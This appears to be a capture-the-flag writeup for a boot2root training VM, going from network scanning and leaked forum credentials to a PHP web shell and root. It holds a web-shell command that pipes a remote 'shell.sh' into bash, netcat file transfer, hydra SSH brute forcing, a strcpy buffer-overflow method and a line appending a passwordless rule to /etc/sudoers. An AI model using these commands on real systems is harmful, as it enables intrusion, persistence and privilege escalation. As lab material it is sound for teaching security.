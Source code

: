 *INFO GATHERING*

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```ifconfig```
```nmap -sn -T4 <Network>```

![](./img/01-ifconfig.png)
![](./img/02-nmap_network.png)

Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```ping <TargetIP>```

![](./img/03-ping.png)

As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```nmap -sVC -p- -T4 <TargetIP>```

![](./img/04-nmap_target.png)

The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.


Inspecting the https service, we discovered three different directories

```dirb https://<TargetIP>```

![](./img/05-dirb.png)

The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

*EXPLOITATION*

![](./img/06-forum_post.png)

We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net

![](./img/07-forum_profile.png)

Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.

![](./img/08-db_creds.png)

We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.

```https://10.0.2.5/forum/templates_c/rce.php?cmd=curl 10.0.2.15:9090/shell.sh | bash```

![](./img/09-RCE.png)

*POST EXPLOITATION*

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```cat /home/LOOKATME/password```
```ssh lmezard@IP```
```su lmezard```

![](./img/10-lmezard.png)

**fun**

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

```nc -nlv <port> > fun``` in attacker
```nc <IP> <port> < fun``` in target system
```tar -xvf ./fun```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```cat ft_fun/* | grep printf | grep -v haha```
```cat ft_fun/* | grep getme -A 3 | grep -v haha```
```cat ft_fun/* | grep return | grep -v haha```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt```
```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

**bomb**

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using the online service "LINK".

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: Publicspeakingisveryeasy.126241207201b2149opekmq426135

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```echo -n "SLASH" | md5sum```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```./exploit_me Hello``` (command output)
```strings ./exploit_me```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```./exploit_me $(python payload.py)```
```echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su```
```id```

![](./img/11-root.png)